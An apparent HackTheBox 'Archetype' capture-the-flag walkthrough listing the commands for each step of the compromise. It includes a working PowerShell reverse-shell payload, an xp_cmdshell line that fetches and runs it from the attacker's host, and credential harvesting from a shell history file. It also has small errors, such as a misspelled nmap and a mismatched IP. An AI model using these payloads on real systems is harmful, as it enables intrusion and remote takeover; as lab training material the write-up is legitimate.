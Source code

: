 # HackTheBox Archetype
## Scanning

Initial scan

```bash
nmap 10.10.10.27 -oN init_nmap.log
```

Service discovery and default scripts on found ports

```bash
nnamp -sV -sC -p 135,139,445,1433,1434 -oN portscan_nmap.log
```

## Connecting with smb

Connect to backup folder

```bash
smbclient \\\\10.10.10.27\\backups -N
```

Get the file

```bash
get prod.dtsConfig
```

## Logging into MSSQL service

Open metasploit and select the MSSQL Login module

```bash
use scanner/mssql/mssql_login
set RHOST 10.10.10.27
set PASSWORD M3g4c0rp123
set USERNAME sql_svc
set DOMAIN ARCHETYPE
exploit
```

## Getting a reverse shell

Starting netcat

```bash
nc -lvnp 420
```

Starting a python server to download the reverse shell payload

```bash
python3 -m http.server
```

Setting up the revese payload. This has to be in a `ps1` file, in this case the `file.ps1` file

```ps
 $client = New-Object System.Net.Sockets.TCPClient("10.10.14.147",420);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

Executing the download on the MSSQL server

```sql
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.147:8000/file.ps1\");"
```

## Searching for possible interesting files

Powershell script to get all files and exclude directories

```ps
gci -Force -Recurse | where {! $_.PSIsContainer}
```

Getting the user flag

```bash
cat C:\Users\sql_svc\Desktop\user.txt
```

Getting smb Admin accounts

```bash
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## Getting the admin flag

Logging in as admin with the found credentials

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.37
```

Reading the root flag

```
type C:\Users\Administrator\Desktop\root.txt
```
